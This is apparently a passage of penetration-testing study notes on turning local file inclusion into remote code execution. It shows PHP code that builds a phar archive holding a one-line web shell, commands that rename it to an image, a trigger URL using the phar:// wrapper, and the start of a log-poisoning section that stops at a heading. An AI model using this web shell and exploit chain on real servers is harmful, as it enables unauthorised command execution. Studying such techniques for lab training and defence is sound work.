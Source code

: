 > `%23` = `#`, used to reference file inside ZIP.
## Phar Upload (Using `phar://` Wrapper)
###### 1. Generate a `phar` archive:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
###### 2. Compile and rename:

```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```
###### 3. Upload, then trigger via:

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

> `%2F` = `/` in URL encoding.

### ✅ Summary

|Technique|Wrapper Used|Notes|
|---|---|---|
|Image upload|None|Most reliable, if code is included|
|ZIP archive|`zip://`|Needs `zip` wrapper enabled|
|PHAR archive|`phar://`|Needs `phar.readonly=0` during creation|
# Log Poisoning

LFI can lead to **Remote Code Execution** by including files that contain attacker-controlled PHP code. Log poisoning works by writing PHP code into server-controlled logs (or session files), then including those via LFI to execute it.
###  Functions That Allow Code Execution

| Function                       | Read | Execute | Remote URL |
| ------------------------------ | ---- | ------- | ---------- |
| `include()` / `include_once()` | ✅    | ✅       | ✅          |
| `require()` / `require_once()` | ✅    | ✅       | ❌          |

> If the log file is readable and the vulnerable function executes code, **RCE is possible.**
## PHP Session Poisoning
###### 1. Check your PHPSESSID cookie:
